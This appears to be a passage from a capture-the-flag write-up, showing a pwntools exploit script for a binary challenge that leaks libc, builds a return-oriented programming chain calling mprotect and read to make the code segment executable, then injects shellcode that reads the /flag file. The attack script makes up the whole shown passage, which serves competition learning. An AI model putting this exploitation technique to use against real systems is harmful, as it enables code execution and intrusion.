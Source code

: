 ```python
print(hex(libc_base))

pop_rsi = libc_base + 0x110a4d
pop_rdi = libc_base + 0x10f75b
pop_rax = libc_base + 0xdd237
xchg_edx_eax = libc_base + 0xb229e #xchg edx, eax ; mov eax, 0xf7000000 ; ret 0
mprotect = libc_base + libc.symbols["mprotect"]
read = libc_base + libc.symbols["read"]
shellcode_addr = 0x401000 #直接拿代码段来用

payload = cyclic(0x10 + 8) + p64(pop_rdi) + p64(shellcode_addr)
payload += p64(pop_rsi) + p64(0x1000) + p64(pop_rax) + p64(7) + p64(xchg_edx_eax) + p64(mprotect) #mrpotect改权限
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(shellcode_addr) + p64(pop_rax) + p64(0x1000) + p64(xchg_edx_eax) + p64(read)
payload += p64(shellcode_addr)
sh.sendafter(b"number ", p64(0x404028))
sh.sendafter(b"byte", b"\x50")
sh.sendline(payload)


shellcode = asm(shellcraft.open('/flag',0,0))
shellcode += asm(shellcraft.read('rax',shellcode_addr + 0x800,0x100))
shellcode += asm(shellcraft.write(2,shellcode_addr + 0x800,'rax'))
pause()
sh.sendline(shellcode)

sh.interactive()
```
### 不思議なscanf
